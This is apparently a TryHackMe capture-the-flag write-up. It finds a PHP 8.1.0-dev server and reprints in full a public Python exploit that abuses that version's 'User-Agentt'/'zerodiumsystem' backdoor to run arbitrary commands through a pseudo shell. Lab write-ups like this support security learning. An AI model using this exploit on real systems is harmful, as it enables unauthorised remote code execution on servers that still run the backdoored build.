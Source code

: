 ## Info
- Platform: TryHackMe  
- Difficulty: Easy  

---

## Enumeration
<img width="1919" height="830" alt="Screenshot_2025-09-10_06-34-15" src="https://github.com/user-attachments/assets/43c74208-54e7-4fca-8b76-50665d523637" />

- Most sidebar links (Login, Register, Forgot Password, Charts, Tables) were dummy (`#`).  
- Only `blank.html` and `404.html` worked.

<img width="1919" height="470" alt="Screenshot_2025-09-10_06-46-58" src="https://github.com/user-attachments/assets/aa09a066-303e-42c2-9e56-f9767e0fca13" />

- In the **Network tab**, the server revealed it was running: PHP/8.1.0-dev

---

## Exploitation
- Searched Exploit-DB for *PHP 8.1.0-dev*.  
- Found: [PHP 8.1.0-dev – 'User-Agentt' RCE]([https://www.exploit-db.com/exploits/49446](https://www.exploit-db.com/exploits/49933)).
```bash
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```            
- Opened `nano` and created a new file `agent.py`.  
- Pasted the exploit code inside and saved it.

<img width="698" height="240" alt="Screenshot_2025-09-10_06-53-17" src="https://github.com/user-attachments/assets/8adba7af-ebc3-4104-a75a-28dfb63ff2c9" />
- Executed the script.

---

## Result
<img width="602" height="64" alt="2" src="https://github.com/user-attachments/assets/a01a3a4e-69e6-4ee8-951c-5fd1d382fc42" />

- Flag found: `[FLAG FOUND]`
